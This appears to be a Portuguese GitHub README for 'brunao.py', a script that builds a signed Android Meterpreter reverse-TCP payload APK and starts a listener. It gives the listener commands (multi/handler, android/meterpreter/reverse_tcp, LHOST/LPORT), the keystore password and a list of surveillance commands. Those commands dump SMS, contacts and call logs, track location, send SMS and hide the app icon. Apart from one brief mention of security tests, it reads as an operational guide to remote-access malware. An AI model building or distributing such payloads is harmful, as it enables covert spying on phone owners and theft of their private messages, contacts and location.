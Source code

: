 # Script brunao.py

Este script foi desenvolvido para automatizar várias etapas de testes e manipulações no Metasploit Framework e no Android. Ele realiza as seguintes tarefas:

- Atualiza o Metasploit Framework
- Gera um payload para Android
- Descompila e recompila o APK gerado
- Atualiza a versão do APK para Android 13
- Assina e otimiza o APK
- Inicia o listener do Meterpreter para conexões

## Funcionalidades

### 1. Atualização do Metasploit Framework
O script começa atualizando o Metasploit Framework e seu Linux todo para garantir que você esteja usando a versão mais recente. Durante a execução, ele verifica a versão instalada e a atualiza automaticamente se necessário.

### 2. Geração do Payload Android
O script gera um payload para Android e o salva como um arquivo APK, pronto para ser utilizado em testes de segurança.

### 3. Descompilação do APK
O APK gerado é descompilado usando a ferramenta Apktool, permitindo que o conteúdo seja acessado e modificado.

### 4. Atualização para Android 13
Após a descompilação, o script atualiza a versão do APK para Android 13, garantindo que o arquivo gerado seja compatível com a versão mais recente do sistema operacional.

### 5. Recompilação e Assinatura do APK
O APK modificado é recompilado e assinado digitalmente usando um keystore, o que permite sua execução em dispositivos Android.

### 6. Início do Listener do Meterpreter
Por fim, o script inicia o listener do Meterpreter, configurando a porta de escuta e esperando a conexão do dispositivo.

## Requisitos

- **Python 3**: O script foi desenvolvido para Python 3.
- **Metasploit Framework**: O Metasploit Framework deve estar instalado no sistema para a execução do script.
- **Apktool**: Usado para descompilar e recompilar o APK.
- **Keystore**: Necessário para assinar o APK gerado.

## Como Usar

1. Clone este repositório ou baixe o arquivo `brunao.py`.
2. Certifique-se de que o Metasploit Framework, Apktool e o Python 3 estão corretamente instalados no seu sistema.
3. Execute o script com o seguinte comando:

    ```bash
    sudo python3 brunao.py -r
    ```

4. Durante a execução, o script pedirá algumas informações, como a porta de destino para o listener (LPORT).
5. Após a execução bem-sucedida, você terá o APK assinado e otimizado pronto para ser utilizado.

## Exemplos de Uso

- **Iniciar o script**:

    ```bash
    sudo python3 brunao.py -r
    ```
  <h3>Quando tudo tiver compilado vai pedir uma senha a senha é: password</h3>
  <h4>Se errar a senha tente de novo usando o ' sudo python3 brunao.py -r ' e tente copia a senha: <h2>password</h2></h4>

    O script vai iniciar o processo automaticamente e pedirá que você forneça as informações necessárias, como a porta (LPORT).

## Contribuições

## Sinta-se à vontade para contribuir com melhorias ou correções. Caso encontre problemas, por favor, abra uma issue no repositório.

<br>
----------------------------------------------//-------------------------------//-------------------------------------

## Comandos específicos para Android

-activity_start: Inicia uma atividade Android a partir de uma string Uri.

-check_root: Verifica se o dispositivo Android é root.

-dump_calllog: Obtém o histórico de chamadas.

-dump_contacts: Obtém a lista de contatos.

-dump_sms: Obtém as mensagens SMS.

-geolocate: Obtém a localização atual usando geolocalização.

-hide_app_icon: Oculta o ícone do aplicativo do lançador.

-interval_collect: Gerencia a coleta de dados em intervalos.

-send_sms: Envia SMS do dispositivo alvo.

-sqlite_query: Consulta um banco de dados SQLite no armazenamento.

-wakelock: Habilita ou desabilita o Wakelock.

-wlan_geolocate: Obtém a localização usando informações de WLAN.


## Iniciar coleta de Wi-Fi:


Copiar código
interval_collect -a start -c wifi
Pausar a coleta de localização geográfica:


Copiar código
interval_collect -a pause -c geo
Exibir os dados coletados de torres de celular:


Copiar código
interval_collect -a dump -c cell


## (depois que instala o apk use sempre esse) Se você quiser iniciar o listener manualmente, execute o seguinte comando no terminal:


        msfconsole


## E, após carregar o Metasploit, configure o listener com o comando:


        use exploit/multi/handler
        set payload android/meterpreter/reverse_tcp
        set LHOST [IP_LOCAL]
        set LPORT [PORTA]
        exploit

        
Troque [IP_LOCAL] pelo seu IP local e [PORTA] pela porta que você configurou (como a porta 4444).

## se querer gerar um novo o apk(paylaod) apague os arquivos já existente como as pastas e apk's gerado

use: 
               sudo rm -rf Brunao_kyti
               
               sudo rm -rf brunao_kyti
               
               sudo rm -rf brunao_kyti.apk

               sudo rm -rf brunao_kyti_final.apk
               
               sudo rm -rf brunao_kyti_signed.apk


## depois de gerar o apk instaler o brunao_kyti_final.apk, guarde e use o msfconsole. 


